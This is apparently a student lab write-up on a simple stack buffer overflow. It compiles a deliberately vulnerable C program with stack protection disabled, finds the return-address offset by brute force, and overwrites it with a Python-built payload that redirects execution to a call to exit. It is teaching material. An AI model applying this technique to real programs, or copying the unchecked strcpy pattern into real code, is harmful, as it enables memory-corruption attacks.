 # Lab3 - Simple buffer overflow example

## What are we going to do?
This example shows that after calling strcpy function, just exiting the program not returning to the point it was called.
To do that, we need to overwrite the return address exploit the strcpy function.

## Overview of process 
1. Set an address you want to jump. In this example, we just want to find out the address where the program exit immediately. Later on, this address will be the address you want to execute!!
2. Find where the strcpy return address is.(It's a brute force method)
3. And then, run the c program with a parameter containing the address where you want to jump.(We are going to use the address from the Step1)

## Steps in detail
+ Preparation. Compile the c program below like this. 
```
gcc -g -z execstack -fno-stack-protector ans_check5.c -o ans_check5
```
+ gcc option explanation
```
-g : default debug information
-z execstack : marks the stack as executable
-fno-stack-protector : disables stack protection
-o : set output file name
```

+ Step1. Execute below to find out the address we want to jump. As you can see, 0x080485b3 is the address we want to jump!
```
[02/09/22]seed@VM:Byeongchan$ objdump -D ans_check5 | grep -B 1 exit

08048400 <exit@plt>:
--
 80485b3:	6a 00                	push   $0x0
 80485b5:	e8 46 fe ff ff       	call   8048400 <exit@plt>
[02/09/22]seed@VM:Byeongchan$
```

+ Step2. Find out where the return address of strcpy function is! This is where brute force method comes in! Try like below changing the number of print count. If the program ended without printing 'About to exit!', that means return address was corrupted and the program was killed by the system.
```
[02/09/22]seed@VM:Byeongchan$ ./ans_check5 $(python -c "print '0'*47")
ans_buf is at address 0xbf88027c
Right answer!
About to exit!
Segmentation fault
[02/09/22]seed@VM:Byeongchan$ ./ans_check5 $(python -c "print '0'*48")
ans_buf is at address 0xbf8fe32c
Segmentation fault

```

+ Step3. Run like below. Python code will create meaning-less characters followed by exit return address. That return address will overwrite the return address of strcpy. If the program exit without 'Segmentation fault', then you found the right place!!!
```
ans_check5 $( python -c "print '\xAA'*48 + '\xb3\x85\x04\x08'") 
```

+ Result. * As you can notice, the program exit with special input parameter overwriting the return address 
```
[02/10/22]seed@VM:Byeongchan$ ans_check5
Usage: ans_check5 <answer>
[02/10/22]seed@VM:Byeongchan$ ans_check5 1
ans_buf is at address 0xbf8d9acc
Wrong answer!
About to exit!
[02/10/22]seed@VM:Byeongchan$ ans_check5 forty-two
ans_buf is at address 0xbfb8ad9c
Right answer!
About to exit!
[02/10/22]seed@VM:Byeongchan$ ans_check5 $( python -c "print '\xAA'*48 + '\xb3\x85\x04\x08'") 
ans_buf is at address 0xbf97bbdc
[02/10/22]seed@VM:Byeongchan$ 
```

# ans_check5.c
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_answer(char *ans) {

  int ans_flag = 0;
  char ans_buf[32];

  printf("ans_buf is at address %p\n", &ans_buf);

  strcpy(ans_buf, ans);

  if (strcmp(ans_buf, "forty-two") == 0)
    ans_flag = 1;

  return ans_flag;

}

int main(int argc, char *argv[]) {

  if (argc < 2) {
    printf("Usage: %s <answer>\n", argv[0]);
    exit(0);
  }
  if (check_answer(argv[1])) {
    printf("Right answer!\n");
  } else {
    printf("Wrong answer!\n");
  }
  printf("About to exit!\n");
  fflush(stdout);
}
```


